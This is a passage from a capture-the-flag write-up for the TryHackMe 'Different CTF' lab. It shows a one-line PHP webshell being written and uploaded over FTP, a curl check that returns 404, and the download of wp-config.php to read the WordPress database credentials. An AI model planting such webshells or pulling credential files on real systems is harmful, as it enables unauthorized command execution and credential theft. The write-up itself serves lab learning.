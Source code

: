 We can upload any files!

**Now, let's upload a PHP webshell:**
```shell
┌[siunam♥earth]-(~/ctf/thm/ctf/Different-CTF)-[2023.01.30|14:42:39(HKT)]
└> echo '<?php system($_GET["cmd"]) ?>' > webshell.php

ftp> put webshell.php 
local: webshell.php remote: webshell.php
```

**Then try to go to the webshell location:**
```shell
┌[siunam♥earth]-(~/ctf/thm/ctf/Different-CTF)-[2023.01.30|14:43:31(HKT)]
└> curl http://adana.thm/webshell.php                                
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL was not found on this server.</p>
<hr>
<address>Apache/2.4.29 (Ubuntu) Server at adana.thm Port 80</address>
</body></html>
```

Wait. HTTP status 404 Not Found?

Let's take a step back.

Our uploaded file doesn't exist on the WordPress website, so maybe **it's on a different subdomain**?

But before we start fuzzing subdomains, let's try to download the `wp-config.php`, which holds database's credentials:

```shel
ftp> get wp-config.php
[...]

┌[siunam♥earth]-(~/ctf/thm/ctf/Different-CTF)-[2023.01.30|14:47:26(HKT)]
└> cat wp-config.php
[...]
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'phpmyadmin1' );

/** MySQL database username */
define( 'DB_USER', 'phpmyadmin' );

/** MySQL database password */
define( 'DB_PASSWORD', '{Redacted}' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );
[...]
```
